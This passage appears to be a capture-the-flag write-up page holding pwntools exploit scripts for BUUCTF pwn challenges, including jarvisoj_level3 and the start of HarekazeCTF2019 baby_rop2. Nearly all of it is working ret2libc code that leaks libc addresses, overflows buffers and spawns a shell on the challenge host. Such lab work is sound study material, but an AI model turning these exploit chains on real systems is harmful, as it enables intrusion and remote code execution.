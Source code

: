 libc=LibcSearcher('printf',printf_add)
libc_base=printf_add-libc.dump('printf')
system=libc_base+libc.dump('system')
binsh=libc_base+libc.dump('str_bin_sh')
p.recvuntil('read?')
p.sendline(str(-1))
p.recvuntil('data!\n')
payload=b'a'*0x30+p32(system)+p32(main)+p32(binsh)
p.sendline(payload)
p.interactive()

## jarvisoj_level3

32位ret2libc
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
conn = remote('node4.buuoj.cn',25837)
elf = ELF('./level3')
write_plt = elf.plt['write']
write_got = elf.got['write']
main_addr = 0x0804844B
payload = b'a'*0x88 + b'b'*4 + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
conn.sendlineafter("Input:\n",payload)
write_addr = u32(conn.recv(4))
print(hex(write_addr))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
system_addr = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
payload = b'a'*0x88 + b'b'*4 + p32(system_addr) + p32(main_addr) + p32(bin_sh)
conn.sendlineafter("Input:\n",payload)
conn.interactive()

## [HarekazeCTF2019]baby_rop2

from pwn import *

#start
r = remote('node4.buuoj.cn',25683) 
r = process("../buu/[HarekazeCTF2019]baby_rop2")
elf = ELF('babyrop2')
libc = ELF("libc.so.6")

#params
rdi_addr = 0x400733
rsi_r15_addr = 0x400731
main_addr = elf.symbols['main']
printf_plt=elf.plt['printf']
read_got=elf.got['read']
format_str = 0x400770
